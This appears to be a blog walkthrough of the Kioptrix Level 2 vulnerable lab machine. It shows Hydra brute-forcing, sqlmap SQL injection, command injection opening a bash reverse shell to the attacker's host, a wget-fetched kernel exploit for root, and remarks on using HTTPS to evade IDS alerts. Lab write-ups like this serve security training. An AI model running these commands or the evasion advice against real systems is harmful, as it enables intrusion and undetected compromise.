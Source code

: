 ```yaml
---
layout: post
title: Kioptrix Level 2
date: 2018-08-12
---
```

# Kioptrix Level 2

Just a short walkthrough on Kioptrix level 2.

```
Step 1: enumeration & information Gathering.
```

Portscan results:
```
PORT     STATE SERVICE REASON
22/tcp   open  ssh     syn-ack ttl 64
80/tcp   open  http    syn-ack ttl 64
111/tcp  open  rpcbind syn-ack ttl 64
443/tcp  open  https   syn-ack ttl 64
631/tcp  open  ipp     syn-ack ttl 64
812/tcp  open  unknown syn-ack ttl 64
3306/tcp open  mysql   syn-ack ttl 64
```
Inspecting the Web Server reveals a login page to the administrative console.

![](/img/kioptrixlvl2/kioptrixlvl2_login.png)

Using burp suite we set up a proxy to inspect the form Request paramaeters passed to the server when attempting to login.

![](/img/kioptrixlvl2/kioptrixlvl2_form.png)

```
Step 2: Enumeration Phase.
```

Using Hydra we can begin the Brute force process, initially the parameters passed into the web form are successful, these are obviously false positives. The web server on authentication success will likely redirect the request via a 302 or 303 HTTP response code.

![](/img/kioptrixlvl2/Try_hyd1.png)

Updating the Script parameters with:
```
hydra -t 4 -vV -l admin -P /usr/share/john/password.lst 192.168.1.43 http-post-form
"/index.php:uname=^USER^&psw=^PASS^&btnLogin=Login:S=302"
```
![](/img/kioptrixlvl2/Try_hyd2.png)

While trying to Brute force we can also try to see if this particular login page is vulnerable to a simple SQL injection attack. We know the backend is running mysql based on our earlier nmap scan.

Copying the payload from Burp suite to a text file, we can use the payload parameters in a sql injection tool such as "sqlmap."

Payload Data ->
```
POST /index.php HTTP/1.1
Host: 192.168.1.43
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://192.168.1.43/index.php
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 39

uname=admin&psw=password&btnLogin=Login
```
Using info from the above data we can begin testing for a SQL injection using the sqlmap tool mentioned earlier.

```
sqlmap -u 'http://192.168.1.43/index.php' --data='uname=admin&psw=admin' --level=3 --risk=3`
```
![](/img/kioptrixlvl2/SQLinj.png)

At this point, it is fairly obvious how we are going to get a shell from this machine. Since once logged in we have access to a network ping tool which is directly calling an Operating System program. We can simply try to use command path injection to bypass the ping command and call our own tool that resides on the operating system.

![](/img/kioptrixlvl2/SQLinj2.png)

running which through the interface results in the location of python on the OS!

![](/img/kioptrixlvl2/whichpy.png)

```
Step 3: Exploitation
```

We then set up a listener on metasploit (reverse_tcp) and then we can inject the command to spawn a reverse shell.

```
use exploit/multi/handler
set payload linux/x86/shell/reverse_tcp
set LHOST 192.168.1.42
set LPORT 4444
```
Now injecting the command through index.php page we bypassed ->
```
;bash -i >& /dev/tcp/192.168.1.42/4444 0>&1
```
We are able to spawn a reverse shell.

![](/img/kioptrixlvl2/rev_shell.png)

Now that we have a reverse shell, all that's left is to obtain root (privledge escalation).

From an earlier scan we know that we are on CentOS, checking the Kernel version on the target reveals it is likely vulnerable to CVE-2009-2692.
```
uname -r
2.6.9-55.EL
```
Using wget we can simply query the raw exploit code from an apache server I set up on the client machine and then try to compile it on our target system through the reverse shell.

![](/img/kioptrixlvl2/root.png)

Compilation and execution of the C code, results in successful privledge escalation due to the vulnerable kernel.

Unfortunatley for us, all of the enumeration attempts and exploits were being recorded the entire time. The IDS/IPS system was in only in an Alert-Mode state, however it certainly must of rang some bells and whistles... =)

![](/img/kioptrixlvl2/recording.png)

Running the very same set of exploits, but on the HTTPS socket would of entirley prevented these alerts (unless there was a prescence of a WAF) and blinded the security operations center from seeing these types of requests.

We will dig into how we can better or even prevent attack detection in the near future.
